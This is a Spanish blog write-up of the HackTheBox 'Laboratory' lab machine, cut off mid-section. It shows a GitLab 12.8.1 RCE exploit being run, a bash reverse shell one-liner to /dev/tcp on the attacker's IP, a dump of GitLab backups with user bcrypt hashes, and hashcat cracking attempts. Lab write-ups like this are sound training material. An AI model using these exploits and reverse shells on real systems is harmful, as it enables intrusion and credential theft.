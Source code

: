```yaml
---
layout      : post
title       : "HackTheBox - Laboratory"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298banner.png
category    : [ htb ]
tags        : [ linux, gitlab, RCE, backup, git, SUID, path-hijacking ]
---
```

Máquina Linux nivel fácil. Tendremos al lobo naranja (GitLab) :P como punto de entrada, jugaremos con Backups y archivos **.bundle**, obtendremos las llaves de la casa y nos haremos dueños de la r(oo)ta mediante un PATH Hijacking.

![298laboratoryHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298laboratoryHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [0xc45](https://www.hackthebox.eu/profile/73268).

Wenas :3 Nos enfrentaremos al gestor de versiones `GitLab`, usaremos ayuda :O (`/help`) para centrar la búsqueda en la versión del software (**Gitlab 12.8.1**). Jugaremos con un exploit que nos permite ver archivos del sistema pero también obtener una Shell (feita) como el usuario **git** en el hostname `git.laboratory.htb`.

Enumerando y buscando auxilio, usaremos `gitlab-backup` para obtener un `backup` de dos repositorios. Usaremos archivos `.bundle` para generar un `clone` de cada repo. En uno nos encontraremos cosas personales :O, usaremos la llave privada **id_rsa** para migrar al usuario **dexter**.

Buscando archivos relacionados con **dexter** encontramos un `SUID` llamativo, jugando con `cat` y `ltrace` vemos que está llamando al binario `chmod` sin ruta absoluta. Aprovecharemos esto para generar un `PATH Hijacking` donde al ejecutar el archivo interesante, obtengamos una Shell como el usuario **root**.

#### Clasificación de la máquina.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

Bastante RealG4Life. A darleeeeeeeeee.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto).

...

Tendremos como siempre 3 fases:

1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalada de privilegios](#escalada-de-privilegios)

...

## Enumeración [#](#enumeracion) {#enumeracion}

Como siempre empezamos realizando un escaneo de puertos sobre la maquina para saber que servicios esta corriendo.

```bash
–» nmap -p- --open -v 10.10.10.216 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535                                                                                  |
| --open     | Solo los puertos que están abiertos                                                                      |
| -v         | Permite ver en consola lo que va encontrando                                                             |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard      |

```bash
–» cat initScan 
# Nmap 7.80 scan initiated Thu Jan 28 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.216
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.216 ()   Status: Up
Host: 10.10.10.216 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 443/open/tcp//https///        Ignored State: filtered (65532)
# Nmap done at Thu Jan 28 25:25:25 2021 -- 1 IP address (1 host up) scanned in 396.96 seconds
```

Muy bien, tenemos los siguientes servicios:

| Puerto | Descripción |
| ------ | :---------- |
| 22     | [SSH](https://es.wikipedia.org/wiki/Secure_Shell) |
| 80     | [HTTP](https://es.wikipedia.org/wiki/Protocolo_de_transferencia_de_hipertexto) |
| 443    | [HTTPS (TLS)](https://sectigostore.com/blog/port-443-everything-you-need-to-know-about-https-443/) |

Hagamos nuestro escaneo de versiones y scripts con base en cada puerto, con ello obtenemos información más detallada de cada servicio:

```bash
–» nmap -p 22,80,443 -sC -sV 10.10.10.216 -oN portScan
```

| Parámetro | Descripción   |
| ----------|:------------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
–» cat portScan 
# Nmap 7.80 scan initiated Thu Jan 28 25:25:25 2021 as: nmap -p 22,80,443 -sC -sV -oN portScan 10.10.10.216
Nmap scan report for 10.10.10.216
Host is up (0.19s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn: 
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 28 25:25:25 2021 -- 1 IP address (1 host up) scanned in 32.26 seconds
```

Tenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :-------|
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu |
| 80     | HTTP     | Apache httpd 2.4.41  |
| 443    | HTTPS    | Apache httpd 2.4.41  |

Vemos cositas:

* Hace una redirección al dominio `laboratory.htb` pero al del puerto `443`.
* También al parecer tenemos otro dominio: `git.laboratory.htb`.

Empecemos a enumerar cada servicio :)

...

### Puerto 80 [⌖](#puerto-80) {#puerto-80}

Efectivamente nos redirecciona al dominio `laboratory.htb`, lo agregamos al archivo `/etc/hosts` para corregir la resolución:

* Info sobre el archivo `/etc/hosts`. - [e-logicasoftware.com](http://e-logicasoftware.com/tutoriales/tutoriales/linuxcurso/base/linux065.html)

```bash
–» cat /etc/hosts
...
10.10.10.216  laboratory.htb git.laboratory.htb
...
```

Y ahora volvemos a probar:

![298page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80.png)

Perfecto, veamos que podemos obtener de ahí...

Me pareció interesante y algo críptico este apartado, así que mejor guardarlo:

![298page80_ourCustomers](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_ourCustomers.png)

Pero de resto no tenemos algo interesante... Recordemos el otro dominio que vimos en el escaneo (`git.laboratory.htb`), vamos allí a ver sí si funciona:

![298page80_git_domain](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_domain.png)

Nice, tenemos `GitLab` activo, con la posibilidad de crearnos una cuenta e ingresar, hagámoslo y veamos que hay dentro...

Pero al momento de intentar registrarnos con el correo `lanz@lanz.com` (y otros diferentes) obtenemos este error:

```html
1 error prohibited this user from being saved:

    Email domain is not authorized for sign-up
```

Acá ya me iba a empezar a complicar, pero recordé... y si probamos con el dominio `laboratory.htb`? Osea `lanz@laboratory.htb`:

![298page80_git_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_dashboard.png)

Pos sí, logramos entrar, démosle una vuelta a la página...

En `/help` vemos la versión:

![298page80_git_version](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_version.png)

**Acá tuve algo de suerte**, hace poco había estado jugando con el exploit que vamos a usar:

Buscando en la web sobre esa versión y sus posibles exploits, nos encontramos este script que se aprovecha de una vulnerabilidad combinando dos vectores de ataque para ya sea, obtener información de los archivos dentro del sistema ([Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)) o ejecutar comandos en el sistema (RCE).

Todo el proceso se logra gracias al ([Path Traversal]()), ya que extrae la `secret_key_base` usada por `Rails`. Para posteriormente obtener ejecución de comandos explotando una deserialización de una cookie llamada: `experimentation_subject_id`.

* Descripción de la vulnerabilidad. - [rapid7.com/gitlab_file_read_rce](https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/).
* Exploit que usaremos creado por `dotPY-hax`. - [github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)

Si revisamos el código, solo debemos cambiar: el puerto al cual queremos que se genere la reverse Shell y el dominio con el que creara la cuenta:

![298bash_exploit_reviewcode](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_reviewcode.png)

Ejecutemos:

```bash
–» python3 gitlab_rce.py
usage: gitlab_rce.py <http://gitlab:port> <local-ip>

–» python3 gitlab_rce.py https://git.laboratory.htb 10.10.14.159
...
```

![298bash_exploit_running_choose](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_running_choose.png)

Elejimos la `opcion 2` y nos indica esto:

```bash
Start a listener on port 4433 and hit enter (nc -vlnp 4433)
```

Nos ponemos en escucha:

```bash
–» nc -lvp 4433
```

Y damos `enter`:

![298bash_exploit_running_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_running_done.png)

Perfecto, tamos dentro de la máquina, ahora a enumerar. Pero primero hagámosle un tratamiento a nuestra Shell para que sea completamente interactiva, ya que si por alguna razón queremos ver los comandos anteriores o hacer `CTRL + C` no podremos:

* S4vitar nos explica lo que debemos hacer para conseguir una [Shell completamente interactiva (tratamiento de la TTY)](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

Pero al intentarlo (o pues a mí me paso) la Shell (de `ruby` como indicaba el exploit: **"!!RUBY REVERSE SHELL IS VERY UNRELIABLE!! WIP"**) queda estática y no hace nada :( Así que probemos a generarnos una nueva pero en este caso ya con `bash`:

Primero nos volvemos a poner en escucha, pero ahora en otro puerto, en mi caso el `4434` y ejecutamos en la Shell de `git`:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.159/4434 0>&1'
```

```bash
–» nc -lvp 4434
listening on [any] 4434 ...
connect to [10.10.14.159] from laboratory.htb [10.10.10.216] 36932
bash: cannot set terminal process group (398): Inappropriate ioctl for device
bash: no job control in this shell
git@git:~/gitlab-rails/working$ id
id
uid=998(git) gid=998(git) groups=998(git)
git@git:~/gitlab-rails/working$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
git@git:~/gitlab-rails/working$ id
id
uid=998(git) gid=998(git) groups=998(git)
git@git:~/gitlab-rails/working$
```

Perfecto, ahora si procedemos a hacer el tratamiento de la TTY y a enumerar...

Después de buscar y buscar por todos lados me perdí y no sabía que más hacer, subí `linpeas`, enumere servicios mediante `ps auxwww` y con el archivo `/proc/net/tcp` (que tiene los números de los puertos donde hay algún servicio corriendo). Revise archivos locos por X parte, di vueltas por la mayoría de carpetas y con `grep` no encontraba nada... Así que busque ayuda con el siempre fiable [@TazWake](https://www.hackthebox.eu/profile/49335), usuario de la plataforma, moderador y persona superpresta a ayudar, que con una sola frase: 

> "Have you tried `gitlab-backup`?"

Me soluciono el dilema y además entendí que no, no había intentado esa herramienta :(

Si la usamos en pocos segundos obtenemos un archivo `.tar` con el backup del repositorio, si nos creamos una carpeta en `/dev/shm` (archivos temporales) llamada `test/` donde podamos extraer toda la data sin molestar a nadie, tenemos:

```bash
git@git:/dev/shm/test$ gitlab-backup 
2021-01-29 22:45:49 +0000 -- Dumping database ... 
Dumping PostgreSQL database gitlabhq_production ... [DONE]
2021-01-29 22:45:51 +0000 -- done
2021-01-29 22:45:51 +0000 -- Dumping repositories ...
 * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
[SKIPPED] Wiki
 * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
[SKIPPED] Wiki
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping uploads ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping builds ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping artifacts ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping pages ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping lfs objects ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping container registry images ... 
2021-01-29 22:45:53 +0000 -- [DISABLED]
Creating backup archive: 1612133153_2021_01_29_12.8.1_gitlab_backup.tar ... done
Uploading backup archive to remote storage  ... skipped
Deleting tmp directories ... done
done
done
done
done
done
done
done
Deleting old backups ... skipping
Warning: Your gitlab.rb and gitlab-secrets.json files contain sensitive data 
and are not included in this backup. You will need these files to restore a backup.
Please back them up manually.
Backup task is done.
git@git:/dev/shm/test$
```

Buscamos el archivo para moverlo a nuestra carpeta:

```bash
git@git:/dev/shm/test$ find / -name 1611956382_2021_01_29_12.8.1_gitlab_backup.tar 2>/dev/null
/var/opt/gitlab/backups/1611956382_2021_01_29_12.8.1_gitlab_backup.tar
git@git:/dev/shm/test$ mv /var/opt/gitlab/backups/1611956382_2021_01_29_12.8.1_gitlab_backup.tar .
git@git:/dev/shm/test$ ls
1611956382_2021_01_29_12.8.1_gitlab_backup.tar
git@git:/dev/shm/test$ 
```

Lo descomprimimos:

```bash
git@git:/dev/shm/test$ tar -xvf 1611956382_2021_01_29_12.8.1_gitlab_backup.tar #e(x)traemos y (v)emos por pantalla lo que va pasando con el (f)ile.
repositories/              
repositories/@hashed/
...
...
db/
db/database.sql.gz
uploads.tar.gz
builds.tar.gz
artifacts.tar.gz
pages.tar.gz
lfs.tar.gz
backup_information.yml
git@git:/dev/shm/test$ 
```

Perfecto, nos llama la atención el archivo `database.sql.gz`, procedamos a descomprimirlo también:

#### ▿ Rabbit hole :P

```bash
git@git:/dev/shm/test/db$ ls
database.sql.gz
git@git:/dev/shm/test/db$ gzip -d database.sql.gz 
git@git:/dev/shm/test/db$ ls
database.sql
git@git:/dev/shm/test/db$ 
```

Tiene un montón de información, después de jugar un poco, intente buscar mi usuario creado en `GitLab` al inicio de la máquina:

```bash
git@git:/dev/shm/test/db$ grep -i "lanz" database.sql 
43      lanz    lanz    43      2021-01-29 18:48:12.104345      2021-01-29 18:48:12.104345      \N              \N      f       f       20      t       ready   \N      \N      \N      \N     \N       \N      \N      \N      f       48      1179648 \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      1       \N      \N      \N      \N
101     43      Namespace       lanz    2021-01-29 18:48:12.109994      2021-01-29 18:48:12.109994      lanz
43      lanz@laboratory.htb     $2a$10$d1iFT3BRnuqkzprchrPof.9Mv.DCjqPxziHowFhSfP7bFg6.HzYHu    \N      \N      \N      1       2021-01-29 18:48:12.120568      2021-01-29 18:48:12.120568     172.17.0.1       172.17.0.1      2021-01-29 18:48:12.096365      2021-01-29 18:48:12.858875      lanz    f       10                              \N      0       \N      lanz    t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:48:11.977481      \N      \N      f               \N      lanz@laboratory.htb     f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1jwc9nbz418ndij73kh3hw7u8       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      RJMyoUczVKQogLZxez-G    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
git@git:/dev/shm/test/db$ 
```

Perfecto, vemos el correo y además un `hash`... Pero pues el mío no interesa, veamos si podemos obtener más usuarios apoyándonos de las opciones `-A` (After) y `-B` (Before), para listar lineas antes y después de nuestra búsqueda:

```bash
git@git:/dev/shm/test/db$ grep -i "lanz@" -B 3 -A 3 database.sql 
30      test123@laboratory.htb  $2a$10$i2s70e/JnuB7PZgwsIKXq.adqFoTmlY4fYPyrpn3.fe6J5seXqJYq    \N      \N      \N      1       2021-01-29 14:34:05.460662      2021-01-29 14:34:05.460662     172.17.0.1       172.17.0.1      2021-01-29 14:34:05.445185      2021-01-29 14:34:05.775697      test    f       10                              \N      0       \N      test123 t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 14:34:05.344875      \N      \N      f               \N      test123@laboratory.htb  f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       ak3v7vhrg4ncr5fydb5sidjro       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      qKbE4G2UQ9mCEgaWYM2m    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
1       admin@example.com       $2a$10$.9fAYoRs9/Erjs0FH.OlN.OH.L4cj2at6RfTmIQ3CTEl2D4ylgJ6i    \N      \N      \N      9       2021-01-29 19:26:03.945205      2020-10-20 18:39:24.13278      172.17.0.1       172.17.0.1      2020-07-02 18:02:18.859553      2021-01-29 19:26:03.976187      Dexter McPherson        t       100000                                  0       \N      dexter tf       active  1       \N      \N      \N      avatar.png      6nEdboVbdcGyZmgaJ-ym    2020-07-02 18:02:18.623133      2020-07-02 18:37:11.372854      dexter@laboratory.htb   f              \N       admin@example.com       f       f               \N      \N      \N      f       \N              0       2       \N      0       f       \N      \N      \N      f       bonf6hqghs7dp26rjj6f3w2w4               f       f       48      \N      2021-01-29      f       en      \N      \N      \N      \N      1       \N      RvtN2a2xGmyx2-fFL4T4    f       \N      f       \N     \N       \N      \N      \N      \N      \N      3
42      exp101t@laboratory.htb  $2a$10$ICZBhypCVivQKB0n8YIxNuGr/YYMa4A9zGtOM0seJflZ7jiVCHfKG    \N      \N      \N      1       2021-01-29 18:47:30.823162      2021-01-29 18:47:30.823162     172.17.0.1       172.17.0.1      2021-01-29 18:47:30.785264      2021-01-29 19:15:46.002469      exp101t f       10                              \N      0       \N      exp101t t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:47:30.66866       \N      \N      f               \N      exp101t@laboratory.htb  f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       c30j1n6akc41gq3xnlbh3jxmp       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      5f1AHFrApfeU4CqRs57H    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
43      lanz@laboratory.htb     $2a$10$d1iFT3BRnuqkzprchrPof.9Mv.DCjqPxziHowFhSfP7bFg6.HzYHu    \N      \N      \N      1       2021-01-29 18:48:12.120568      2021-01-29 18:48:12.120568     172.17.0.1       172.17.0.1      2021-01-29 18:48:12.096365      2021-01-29 18:48:12.858875      lanz    f       10                              \N      0       \N      lanz    t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:48:11.977481      \N      \N      f               \N      lanz@laboratory.htb     f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1jwc9nbz418ndij73kh3hw7u8       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      RJMyoUczVKQogLZxez-G    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
4       seven@laboratory.htb    $2a$10$HkBO3A4k6G42X85r0ZIpO.RlSLCg9igEaiiU8r44Ymd7e2nWcjixC    \N      \N      \N      3       2020-09-05 19:01:10.34461       2020-07-17 19:03:51.88634      172.17.0.1       172.17.0.1      2020-07-17 15:57:57.446229      2020-09-05 19:01:10.459181      Seven   f       100000                                  0       \N      seven   t       f      active   1       \N      \N      \N      avatar.png      \N      2020-07-17 15:57:57.260823      \N      \N      f               \N      seven@laboratory.htb    f       f               \N     \N       \N      f       \N              0       2       \N      0       f       \N      \N      \N      f       bvm8qb1ou3vg35u3tchcfzgp1               f       f       48      \N      2020-09-05      f       en      \N      \N      \N      \N      1       \N      2sHXWyKj3rwag36sVeP-    f       \N      f       seven@laboratory.htb    \N      \N      \N      \N      \N      \N     4
3       ghost@example.com               \N      \N      \N      0       \N      \N      \N      \N      2020-07-02 19:52:08.183475      2020-07-02 19:52:08.183475      Ghost User      f      100000                           This is a "Ghost User", created to hold all issues authored by users that have since been deleted. This user cannot be removed. 0       \N      ghost   t      factive  1       \N      \N      \N      \N      tzyprXQ5VMAHsEjuex6L    \N      2020-07-02 19:52:08.184131      \N      f               \N      \N      f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1xvejv7i8oe8wluh6jtgeimge       \N      f       f       48      t       \N      f      en       \N      \N      \N      \N      1       \N      \N      f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
5       u@laboratory.htb        $2a$10$sXPLtsEKOUD.xg5WOj3B6.zuWNhVj/rYt4B2z0yAxYDkgswbJHJIW    \N      \N      \N      1       2021-01-29 07:09:51.640403      2021-01-29 07:09:51.640403     172.17.0.1       172.17.0.1      2021-01-29 07:09:51.603953      2021-01-29 07:09:52.168008      normann f       10                              \N      0       \N      normann t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 07:09:51.42427       \N      \N      f               \N      u@laboratory.htb        f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       5oi076s0mnm5bhutjonx9tyqv       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      Zsn5bxeDhqK47W89HrB7    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
git@git:/dev/shm/test/db$ 
```

Es mucho texto y puede verse confuso, lo sé, pero podemos destacar la fecha de creación de los usuarios, si nos guiamos por eso, tenemos 3 interesantes:

```html
| username@correo      | Nombre           | Hash                                                         | Fecha creación |
| -------------------- | :--------------- |:------------------------------------------------------------ | :------------- |
| admin@example.com    | Dexter McPherson | $2a$10$.9fAYoRs9/Erjs0FH.OlN.OH.L4cj2at6RfTmIQ3CTEl2D4ylgJ6i | 2020-07-02     |
| seven@laboratory.htb | Seven            | $2a$10$HkBO3A4k6G42X85r0ZIpO.RlSLCg9igEaiiU8r44Ymd7e2nWcjixC | 2020-07-17     |
| ghost@example.com    | ghost            | -                                                            | 2020-07-02     | 
```

Perfeeecto, pues enfoquemosnos en esos hashes y veamos si los podemos crackear...

Apoyado de [todos los ejemplos de hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) que tiene [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) en su wiki, encontramos que son tipo `bcrypt $2*$, Blowfish (Unix)`:

![298page_example_hashcat_bcrypt](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page_example_hashcat_bcrypt.png)

Guardamos los hashes en un archivo y procedemos, usare `hashcat`:

```bash
–» hashcat -m 3200 -a 0 hashes_t /usr/share/wordlists/rockyou.txt -o cracked_bro
```

* `-m`: Tipo de hash.
* `-a`: Le indicamos que haga un ataque en modo diccionario.
* `hashes_t`: Archivo con los hash.
* `./rockyou.txt`: Diccionario que usaremos.
* `-o`: La salida la guarda en el archivo **cracked_bro**.

Pero nada, no lo logramos... Así que de nuevo, estaba full estancado y pedí ayuda: La ayuda me indico que fuera cauteloso con los archivos del `.tar` y que además me fijara en el output del proceso... (Que lo puse arriba y ni me había fijado):

```bash
...
 * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
[SKIPPED] Wiki
 * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
[SKIPPED] Wiki
...
```

Donde tenemos dos proyectos:

* `securewebsite`.
* `securedocker`.

Y tenemos una ruta para cada uno, inspeccionemos su contenido:

```bash
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ ls -la
total 0
drwxr-xr-x 2 git git 40 Jan 31 22:45 .
drwxr-xr-x 3 git git 80 Jan 31 22:45 ..
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ cd ..
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 2 git git      40 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
git@git:/dev/shm/test/repositories/@hashed/2c/62$
```

No tiene ningún contenido la carpeta, pero una atrás contiene un archivo `.bundle`... Después de otra vez estar perdido, buscando por internet nos damos cuenta de una genialidad con los archivos `.bundle`:

> .. you want a single file that has your whole project and all the commits you’ve made. You can use `git bundle` for this! [blog.tplus1/git-bundle](https://blog.tplus1.com/blog/2018/12/11/git-bundle-converts-your-whole-repository-into-a-single-file-kind-of-like-webpack/).

Esto está muy loco porque significa que todo nuestro repositorio, commits, logs, etc. Lo podemos guardar en un único archivo, que en el caso ya de querer volver a ver los archivos, logs, commits del repositorio, lo único que debemos hacer es un `git clone` al `.bundle`:

> ```sh
> $ git clone -b master /tmp/myproject.bundle myproject2
> $ cd myproject2
> ```
>> [blog.tplus1/git-bundle](https://blog.tplus1.com/blog/2018/12/11/git-bundle-converts-your-whole-repository-into-a-single-file-kind-of-like-webpack/).

Pues apoyados en esto, probemos a generar los dos repositorios y ver que podemos encontrar útil:

#### ¬ securewebsite

```
* dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
```

```bash
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 2 git git      40 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
git@git:/dev/shm/test/repositories/@hashed/2c/62$ git clone 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle 
Cloning into '2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3'...
Receiving objects: 100% (66/66), 7.21 MiB | 78.58 MiB/s, done.
Resolving deltas: 100% (5/5), done.
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 5 git git     140 Jan 31 23:10 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle

git@git:/dev/shm/test/repositories/@hashed/2c/62$ cd 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ ls -la
total 12
drwxr-xr-x 5 git git  140 Jan 31 23:10 .
drwxr-xr-x 3 git git   80 Jan 31 22:45 ..
drwxr-xr-x 7 git git  240 Jan 31 23:10 .git
-rw-r--r-- 1 git git  430 Jan 31 23:10 CREDITS.txt
drwxr-xr-x 6 git git  120 Jan 31 23:10 assets
drwxr-xr-x 2 git git  180 Jan 31 23:10 images
-rw-r--r-- 1 git git 7045 Jan 31 23:10 index.html
```

```git
